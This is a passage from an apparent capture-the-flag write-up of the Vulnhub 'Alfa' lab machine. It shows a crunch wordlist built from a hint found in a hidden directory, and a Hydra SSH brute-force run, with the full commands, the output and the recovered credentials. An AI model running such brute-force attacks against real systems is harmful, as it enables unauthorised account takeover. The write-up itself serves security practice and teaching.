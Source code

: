 ![Image](/assets/img/WriteUp/Vulnhub/Alfa/Pasted image 20230410232145.png){: width="700" height="400" }


Now that looks interesting... A directory what we were not allowed to find.

![Image](/assets/img/WriteUp/Vulnhub/Alfa/Pasted image 20230410232456.png){: width="700" height="400" }


By opening the website (directory) we get some juicy information about how we could generate a password list. The password should exist with the name of the dog, followed by three digits. We can use `crunch` to generate a passwordlist which we can use as input to run a dictionary attack with Hydra.

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Alfa]
└─$ crunch 7 7 -t milo%%% -o passwords.txt
Crunch will now generate the following amount of data: 8000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 1000 

crunch: 100% completed generating output

┌──(emvee㉿kali)-[~/Documents/Vulnhub/Alfa]
└─$ head -n 5 passwords.txt                        
milo000
milo001
milo002
milo003
milo004

```
The password list has been generated, so we can move to the next step. Brute force our way in with Hydra.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Alfa]
└─$ hydra -l thomas -P passwords.txt $ip ssh -s 65111 -t 64 -I
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-11 06:45:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 1000 login tries (l:1/p:1000), ~16 tries per task
[DATA] attacking ssh://10.0.2.40:65111/
[STATUS] 368.00 tries/min, 368 tries in 00:01h, 657 to do in 00:02h, 39 active
[STATUS] 314.50 tries/min, 629 tries in 00:02h, 405 to do in 00:02h, 30 active
[65111][ssh] host: 10.0.2.40   login: thomas   password: milo666
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 22 final worker threads did not complete until end.
[ERROR] 22 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-11 06:48:28

```
We discovered valid credentials. The username is `thomas` as we allready thought based on the chat and the directory in the FTP server. The password is `milo666` .
